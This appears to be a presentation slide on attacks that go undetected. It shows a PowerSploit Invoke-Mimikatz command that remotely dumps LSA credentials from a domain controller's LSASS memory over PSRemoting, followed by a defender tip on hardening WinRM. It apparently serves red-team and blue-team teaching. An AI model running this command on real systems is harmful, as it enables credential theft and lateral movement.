

# Not Detected*: PSRemoting with LSASS Inject
PowerSploit: Mimikatz in memory w/ LSASS Injection

Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject"' -Computer dc03.prod.local

Blue Tip: Lots of ways to harden/log WinRM/PSRemoting, restrict via groups/source, etc.